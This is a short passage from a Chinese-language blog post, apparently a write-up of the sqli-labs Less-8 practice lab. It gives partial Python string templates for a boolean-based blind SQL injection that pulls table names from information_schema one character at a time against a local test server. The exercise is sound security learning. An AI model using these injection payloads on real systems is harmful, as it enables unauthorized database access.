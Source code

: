 ![20](/img/2018-07-20/20.png)
查表查列修改代码url部分即可,给出前面部分，长度需要自己调整，手工判断下就可以了，没有必要写脚本
```
import requests
txt1 = "http://localhost/sqli-labs/Less-8/?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 2,1),"
txt2 = ",1))) >= '"
txt3 = ",1))) = '"
```


妈呀写博客比学的还累。。。